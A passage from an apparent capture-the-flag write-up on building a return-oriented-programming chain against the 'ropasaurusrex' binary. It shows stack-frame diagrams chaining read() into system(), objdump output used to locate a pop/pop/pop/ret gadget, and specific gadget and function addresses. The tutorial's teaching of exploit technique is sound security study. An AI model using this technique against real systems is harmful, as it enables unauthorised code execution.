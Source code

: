 ```
| [address of system]  |
+----------------------+

+----------------------+ <-- Start of read()'s frame
|     size_t count     |
+----------------------+
|      void *buf       |
+----------------------+
|        int fd        |
+----------------------+
| [address of "pppr"]  |
+----------------------+

+----------------------+
|         ...          |
+----------------------+
```

Finding a <tt>pop/pop/pop/ret</tt> is pretty easy using <tt>objdump</tt>:

```

<span class="lnr">1 </span>$ <span class="Identifier">objdump</span> -<span class="Identifier">d</span> ./<span class="Identifier">ropasaurusrex</span> <span class="Comment">| egrep 'pop|ret'</span>
<span class="lnr">2 </span>[...]
<span class="lnr">3 </span> <span class="Constant">80484b5</span>:       <span class="Constant">5b</span>                      <span class="Identifier">pop</span>    <span class="Identifier">ebx</span>
<span class="lnr">4 </span> <span class="Constant">80484b6</span>:       <span class="Constant">5e</span>                      <span class="Identifier">pop</span>    <span class="Identifier">esi</span>
<span class="lnr">5 </span> <span class="Constant">80484b7</span>:       <span class="Constant">5f</span>                      <span class="Identifier">pop</span>    <span class="Identifier">edi</span>
<span class="lnr">6 </span> <span class="Constant">80484b8</span>:       <span class="Constant">5d</span>                      <span class="Identifier">pop</span>    <span class="Identifier">ebp</span>
<span class="lnr">7 </span> <span class="Constant">80484b9</span>:       <span class="Identifier">c3</span>                      <span class="Identifier">ret</span>
```

This lets us remove between 1 and 4 arguments off the stack before executing the next function. Perfect!

And remember, if you're doing this yourself, ensure that the pops are at consecutive addresses. Using <tt>egrep</tt> to find them can be a little dangerous like that.

So now, if we want a triple <tt>pop</tt> and a <tt>ret</tt> (to remove the three arguments that <tt>read()</tt> used), we want the address <tt>0x80484b6</tt>, so we set up our stack like this:

```

+----------------------+
|         ...          |
+----------------------+

+----------------------+ <-- Start of system()'s frame
|      void *arg       | - 0x08049530 (buf)
+----------------------+
|   [return address]   | - 0x44444444
+----------------------+

+----------------------+
| [address of system]  | - 0xb7ec2450
+----------------------+

```
